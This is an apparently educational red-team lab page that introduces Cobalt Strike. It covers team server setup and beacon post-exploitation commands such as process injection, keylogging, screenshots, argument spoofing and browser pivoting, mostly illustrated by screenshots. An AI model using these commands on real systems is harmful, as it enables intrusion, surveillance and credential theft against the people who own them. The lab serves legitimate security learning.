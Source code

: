 # Cobalt Strike 101

This lab is for exploring the advanced penetration testing / post-exploitation tool Cobalt Strike.

{% hint style="info" %}
WIP
{% endhint %}

## Definitions

* Listener - a service running on the attacker's C2 server that is listening for beacon callbacks
* Beacon - a malicious agent / implant on a compromised system that calls back to the attacker controlled system and checks for any new commands that should be executed on the compromised system
* Team server - Cobalt Strike's server component. Team server is where listeners for beacons are set up. Team server allows attackers instructing beacons to execute commands such as record keystrokes, dump passwords, etc on compromised systems.

## Getting Started

Cobalt Strike has client and server side components to it. First, we need to run the team server.

### Team Server

{% code-tabs %}
{% code-tabs-item title="attacker@kali" %}
```csharp
# the syntax is ./teamserver <serverIP> <password> <~killdate> <~profile>
# ~ optional for now
root@/opt/cobaltstrike# ./teamserver 10.0.0.5 password
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../.gitbook/assets/screenshot-from-2019-01-06-22-47-10.png)

{% hint style="info" %}
Note that in real life red team engagements, you would most likely use redirectors to add some resilience to your infrastructure. See [Red Team Infrastructure](red-team-infrastructure/)
{% endhint %}

### Cobalt Strike Client

{% code-tabs %}
{% code-tabs-item title="attacker@kali" %}
```csharp
root@/opt/cobaltstrike# ./cobaltstrike
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Enter the following:

* host - team server IP or DNS name
* user - anything you like - it's just a nickname
* password - your team server password

![](../.gitbook/assets/screenshot-from-2019-01-06-22-51-40.png)

### Demo

![](../.gitbook/assets/peek-2019-01-06-22-56.gif)

## Setting Up Listener

![](../.gitbook/assets/peek-2019-01-07-18-01.gif)

## Generating a Stageless Payload

![](../.gitbook/assets/peek-2019-01-07-18-03.gif)

## Receiving First Call Back

![](../.gitbook/assets/peek-2019-01-07-18-15.gif)

## Interacting with Beacon

![](../.gitbook/assets/screenshot-from-2019-01-07-18-22-38.png)

## Interesting Commands & Features

### Argue

{% code-tabs %}
{% code-tabs-item title="attacker@cs" %}
```csharp
beacon> argue calc /spoofed
beacon> run calc
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../.gitbook/assets/screenshot-from-2019-01-07-19-18-23.png)

![](../.gitbook/assets/screenshot-from-2019-01-07-19-09-47.png)

{% page-ref page="../offensive-security-experiments/masquerading-processes-in-userland-through-\_peb.md" %}

{% page-ref page="../memory-forensics/process-environment-block.md" %}

### Inject

{% code-tabs %}
{% code-tabs-item title="attacker@cs" %}
```csharp
beacon> help inject
Use: inject [pid] <x86|x64> [listener]

inject 776 x64 httplistener
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../.gitbook/assets/peek-2019-01-07-20-16.gif)

### Keylogger

{% code-tabs %}
{% code-tabs-item title="attacker@cs" %}
```csharp
beacon> keylogger 1736 x64
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../.gitbook/assets/screenshot-from-2019-01-07-20-31-30.png)

### Screenshot

{% code-tabs %}
{% code-tabs-item title="attacker@cs" %}
```csharp
beacon> screenshot 1736 x64
```
{% endcode-tabs-item %}
{% endcode-tabs %}



![](../.gitbook/assets/screenshot-from-2019-01-07-20-33-51.png)

### Runu

{% code-tabs %}
{% code-tabs-item title="attacker@cs" %}
```csharp
runu 2316 calc
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../.gitbook/assets/screenshot-from-2019-01-07-20-39-20.png)

### Psinject

{% code-tabs %}
{% code-tabs-item title="attacker@cs" %}
```csharp
beacon> psinject 2872 x64 get-childitem c:\
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../.gitbook/assets/screenshot-from-2019-01-07-20-44-30.png)

![](../.gitbook/assets/screenshot-from-2019-01-07-20-52-16.png)

### Spawnu

{% code-tabs %}
{% code-tabs-item title="attacker@cs" %}
```csharp
beacon> spawnu 3848 httplistener
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../.gitbook/assets/screenshot-from-2019-01-07-20-57-30.png)

![](../.gitbook/assets/screenshot-from-2019-01-07-20-57-25.png)

### Browser Pivoting

{% code-tabs %}
{% code-tabs-item title="attacker@cs" %}
```csharp
beacon> browserpivot 244 x86
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../.gitbook/assets/screenshot-from-2019-01-07-21-23-50.png)

![](../.gitbook/assets/screenshot-from-2019-01-07-21-33-54.png)

![](../.gitbook/assets/peek-2019-01-07-21-36.gif)

## System Profiler

![](../.gitbook/assets/screenshot-from-2019-01-07-21-52-32.png)

![](../.gitbook/assets/screenshot-from-2019-01-07-21-52-50.png)

![](../.gitbook/assets/screenshot-from-2019-01-07-21-52-58.png)





